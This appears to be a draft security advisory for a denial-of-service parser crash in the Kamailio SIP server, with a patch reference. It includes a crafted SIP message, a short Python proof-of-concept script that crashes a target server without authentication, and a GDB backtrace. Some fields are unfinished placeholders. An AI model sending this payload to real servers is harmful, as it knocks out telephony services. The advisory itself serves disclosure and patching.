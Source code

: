 # Parser segmentation fault crash in Kamailio, denial of service possible

- Authors:
    - Henning Westerholt <hw at skalatan.de>
- Fixed versions: Kamailio v5.1.4 and v5.0.7
- References: CVE-2018-XXXX
- Kamailio Security Advisory: https://www.kamailio.org/w/2018/03/TODO/
- Tested vulnerable versions: 5.1, 4.0, git master
- Timeline:
    - Report date: 2018-05-07
    - Kamailio patch: 2018-05-07
    - Kamailio release with patch: 2018-06-XX
    - Security advisory: 2018-06-XX

## Description

A specially crafted SIP message with double `To` header and a malformed To `tag` causes a segmentation fault and crashes Kamailio.

## Impact

Abuse of this vulnerability leads to denial of service in Kamailio. Further research may show that exploitation leads to remote code execution. This vulnerability is rather old and will probably also apply to older versions of Kamailio and maybe even OpenSER.

## How to reproduce the issue

The following SIP message was used to reproduce the issue with double `To` headers containing the `tag` that triggers the vulnerability:


```
REGISTER sip:127.0.0.1:0 SIP/2.0
Via: SIP/2.0/UDP 172.17.13.240:5061;branch=9hG4bKydcnjlpe
To: <@127.0.0.1>;tag=
From: 
To: <sip:>
Content-Length: 0
```

You can use this python script to reproduce the crash:

```
#!/usr/bin/env python
import socket
import sys

for _ in range(2):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.connect((sys.argv[1], int(sys.argv[2])))

    msg = "REGISTER sip:127.0.0.1:0 SIP/2.0\n" \
        "Via: SIP/2.0/UDP 172.17.13.240:5061;branch=9hG4bKydcnjlpe\n" \
        "To: <@127.0.0.1>;tag=\n" \
        "From: \n" \
        "To: <sip:>\n" \
        "Content-Length: 1\n" \
        "\n" \
        "\r\n"
    sock.sendall(msg)
```

Run using:

```
python crash.py <ip> <port>
```

The expected result is a crash in Kamailio.

Notes: 

- authentication is not required
- crash happens in the first module that tries to construct a SIP reply caused by the bogus message
- SIP extension does not need to exist
- Message can be sent over TCP or UDP

### GDB backtrace result

An example for an backtrace caused by this crash in GDB:

```
Program terminated with signal SIGSEGV, Segmentation fault.
#0  __memcpy_sse2_unaligned () at ../sysdeps/x86_64/multiarch/memcpy-sse2-unaligned.S:152
152     ../sysdeps/x86_64/multiarch/memcpy-sse2-unaligned.S: No such file or directory.
(gdb) bt
#0  __memcpy_sse2_unaligned () at ../sysdeps/x86_64/multiarch/memcpy-sse2-unaligned.S:152
#1  0x000000000057ac26 in build_res_buf_from_sip_req (code=400, text=0x7ffc94ef0780, new_tag=0x7fe8e82ee250 <sl_tag>, msg=0x7fe8e923ca00, returned_len=0x7ffc94ef07e8, 
    bmark=0x7ffc94ef0790) at core/msg_translator.c:2502
#2  0x00007fe8e80de2ee in sl_reply_helper (msg=0x7fe8e923ca00, code=400, reason=0x7fe8e6a7e85b "Content-Length mis-match", tag=0x0) at sl_funcs.c:168
#3  0x00007fe8e80df4c3 in sl_send_reply (msg=0x7fe8e923ca00, code=400, reason=0x7fe8e6a7e85b "Content-Length mis-match") at sl_funcs.c:304
#4  0x00007fe8e6a6d34f in sanity_reply (msg=0x7fe8e923ca00, code=400, reason=0x7fe8e6a7e85b "Content-Length mis-match") at sanity.c:55
#5  0x00007fe8e6a727b5 in check_cl (_msg=0x7fe8e923ca00) at sanity.c:557
#6  0x00007fe8e6a7c97a in sanity_check (_msg=0x7fe8e923ca00, msg_checks=1511, uri_checks=7) at sanity_mod.c:194
#7  0x00007fe8e6a7cb0a in w_sanity_check (_msg=0x7fe8e923ca00, _number=0x5e7 <error: Cannot access memory at address 0x5e7>, 
    _arg=0x7 <error: Cannot access memory at address 0x7>) at sanity_mod.c:254
#8  0x0000000000439780 in do_action (h=0x7ffc94ef1160, a=0x7fe8e9210960, msg=0x7fe8e923ca00) at core/action.c:1079
#9  0x0000000000445e1d in run_actions (h=0x7ffc94ef1160, a=0x7fe8e9210960, msg=0x7fe8e923ca00) at core/action.c:1565
#10 0x00000000004464fa in run_actions_safe (h=0x7ffc94ef2480, a=0x7fe8e9210960, msg=0x7fe8e923ca00) at core/action.c:1633
#11 0x0000000000646d88 in rval_get_int (h=0x7ffc94ef2480, msg=0x7fe8e923ca00, i=0x7ffc94ef15e8, rv=0x7fe8e9211598, cache=0x0) at core/rvalue.c:912
#12 0x000000000064b31f in rval_expr_eval_int (h=0x7ffc94ef2480, msg=0x7fe8e923ca00, res=0x7ffc94ef15e8, rve=0x7fe8e9211590) at core/rvalue.c:1910
#13 0x000000000064b75d in rval_expr_eval_int (h=0x7ffc94ef2480, msg=0x7fe8e923ca00, res=0x7ffc94ef1a90, rve=0x7fe8e9210d78) at core/rvalue.c:1918
#14 0x0000000000439145 in do_action (h=0x7ffc94ef2480, a=0x7fe8e92121a0, msg=0x7fe8e923ca00) at core/action.c:1043
#15 0x0000000000445e1d in run_actions (h=0x7ffc94ef2480, a=0x7fe8e920cda8, msg=0x7fe8e923ca00) at core/action.c:1565
#16 0x00000000004360c5 in do_action (h=0x7ffc94ef2480, a=0x7fe8e91fb420, msg=0x7fe8e923ca00) at core/action.c:691
#17 0x0000000000445e1d in run_actions (h=0x7ffc94ef2480, a=0x7fe8e91fb420, msg=0x7fe8e923ca00) at core/action.c:1565
#18 0x00000000004465c2 in run_top_route (a=0x7fe8e91fb420, msg=0x7fe8e923ca00, c=0x0) at core/action.c:1654
#19 0x0000000000587d61 in receive_msg (
    buf=0xa525e0 <buf> "REGISTER sip:127.0.0.1:0 SIP/2.0\nVia: SIP/2.0/UDP 172\035\061\067.13.240:5061;rport;branch=\223\071hG4bKydcnjlpe\nMax-Forwards: 69\nTo: <@127.0.0.1>;tag=;branch=z9hG4bKya-tag\nFrom: <sip:user@127.0.0.Forwards: 70\nTo: <"..., len=417, rcv_info=0x7ffc94ef2aa0) at core/receive.c:331
#20 0x000000000046ca74 in udp_rcv_loop () at core/udp_server.c:554
#21 0x00000000004253d1 in main_loop () at main.c:1432
#22 0x000000000042d631 in main (argc=16, argv=0x7ffc94ef2fc8) at main.c:2650
```

This security issue was discovered through the use of several month of fuzzing with [afl](http://lcamtuf.coredump.cx/afl/) and an internal toolset.

## Solutions and recommendations

Apply the patch at <https://github.com/kamailio/kamailio/commit/281a6c6b6eaaf30058b603325e8ded20b99e1456> or make use of a release that includes that patch (e.g. 5.1.4 or 5.0.7).

## About Henning Westerholt

[Henning Westerholt]<https://www.kamailio.org/w/henning-westerholt/> is a core developer of Kamailio since 2007. He provides consulting services for Kamailio. 

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.
